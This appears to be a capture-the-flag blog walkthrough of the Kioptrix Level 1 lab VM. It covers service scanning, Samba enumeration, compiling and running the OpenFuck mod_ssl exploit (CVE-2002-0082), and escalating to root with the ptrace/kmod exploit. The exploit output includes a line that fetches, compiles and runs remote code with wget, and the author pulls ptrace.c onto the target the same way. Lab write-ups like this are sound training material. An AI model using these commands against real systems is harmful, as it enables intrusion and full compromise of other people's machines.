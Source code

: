 ```yaml
---
layout: post
title: Kioptrix Level 1 CTF Walkthrough
date: 2017-07-30
categories:
  - security
  - ctf
  - walkthrough
tags:
  - kioptrix
  - vulnhub
---
```

## Service Discovery
An Nmap scan [`nmap -sS -sV -T4 -vv 192.168.22.128`] revealed that the machine had a number of services running, most notably an old version of Apache and a Samba service.

```
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 64 OpenSSH 2.9p2 (protocol 1.99)
80/tcp   open  http        syn-ack ttl 64 Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp  open  rpcbind     syn-ack ttl 64 2 (RPC #100000)
139/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   syn-ack ttl 64 Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
1024/tcp open  status      syn-ack ttl 64 1 (RPC #100024)
```

Using `nmblookup`, I was able to find the NetBIOS name of the machine:

```shell_session
root@kali:~# nmblookup -A 192.168.22.128
Looking up status of 192.168.22.128
	KIOPTRIX        <00> -         B <ACTIVE>
	KIOPTRIX        <03> -         B <ACTIVE>
	KIOPTRIX        <20> -         B <ACTIVE>
	..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>
	MYGROUP         <00> - <GROUP> B <ACTIVE>
	MYGROUP         <1d> -         B <ACTIVE>
	MYGROUP         <1e> - <GROUP> B <ACTIVE>

	MAC Address = 00-00-00-00-00-00
```

After identifying the NetBIOS name as `KIOPTRIX`, I used this with `smbclient` to find the available shares and fingerprint the service, which shows the Samba version is `2.2.1a`:

```shell_session
root@kali:~# smbclient -L \\KIOPTRIX -I 192.168.22.128 -N
Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]

	Sharename       Type      Comment
	---------       ----      -------
	IPC$            IPC       IPC Service (Samba Server)
	ADMIN$          IPC       IPC Service (Samba Server)

Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]

	Server               Comment
	---------            -------
	KIOPTRIX             Samba Server

	Workgroup            Master
	---------            -------
	MYGROUP              KIOPTRIX
```

## Exploiting Apache
The version of Apache reported by Nmap is vulnerable to CVE-2002-0082 (a.k.a OpenFuck). I grabbed the exploit from https://www.exploit-db.com/exploits/764/ and installed `libssl-dev`, in order to compile it.

The first attempt to compile resulted in GCC complaining about numerous undeclared constants, due to changes in the library from when the exploit was originally developed.

To solve this, two new include statements needed to be added, so that `openssl/rc4` and `openssl/md5` are both included. After making this small change, the exploit could successfully be compiled by running `gcc exploit.c -o exploit -lcrypto`.

Once the exploit was compiled, I grepped the available offsets that were included in the exploit to find one that matches the fingerprint produced by Nmap earlier:

```shell_session
root@kali:~# ./exploit | grep 1.3.20
	0x02 - Cobalt Sun 6.0 (apache-1.3.20)
	0x27 - FreeBSD (apache-1.3.20)
	0x28 - FreeBSD (apache-1.3.20)
	0x29 - FreeBSD (apache-1.3.20+2.8.4)
	0x2a - FreeBSD (apache-1.3.20_1)
	0x3a - Mandrake Linux 7.2 (apache-1.3.20-5.1mdk)
	0x3b - Mandrake Linux 7.2 (apache-1.3.20-5.2mdk)
	0x3f - Mandrake Linux 8.1 (apache-1.3.20-3)
	0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
	0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
	0x7e - Slackware Linux 8.0 (apache-1.3.20)
	0x86 - SuSE Linux 7.3 (apache-1.3.20)
```

Options `0x6a` and `0x6b` match the fingerprint of the machine, so I tried both. `0x6a` failed, but `0x6b` successfully acquired a shell as the `apache` user:

```shell_session
root@kali:~# ./exploit 0x6b 192.168.22.128 443 -c 50

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 50 of 50
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f81c8
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$
oits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; .nl/0304-expl
--16:35:06--  http://packetstormsecurity.nl/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to packetstormsecurity.nl:80...
packetstormsecurity.nl: Host not found.
gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove `ptrace-kmod.c': No such file or directory
bash: ./p: No such file or directory
bash-2.05$
bash-2.05$   
```

## Getting Root Shell
As the VM has no access to the Internet, it was unable to automate the privilege escalation. Due to the age of the exploit, it would have failed anyway, as the URL it tries to grab the exploit from is seemingly dead (http://packetstormsecurity.nl/0304-exploits/ptrace-kmod.c).

As I was using a non-interactive shell, I grabbed a copy of the ptrace/kmod exploit from https://www.exploit-db.com/exploits/3/. I ran it through GCC locally, to ensure it doesn't need any patching, and found that it was using an old header file [`linux/user.h`], which needed to be replaced with `sys/user.h`.

After making this small change, I started a local HTTP server to transfer it to the target machine:

```shell_session
root@kali:~# python -m SimpleHTTPServer 9090
Serving HTTP on 0.0.0.0 port 9090 ...
```

Once the HTTP server was up, I transferred the updated exploit, compiled and acquired a root shell through it:

```shell_session
bash-2.05$ wget http://192.168.22.129:9090/ptrace.c
bash-2.05$ gcc ptrace.c -o ptrace
bash-2.05$ ./ptrace
[+] Attached to 6289
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root
```
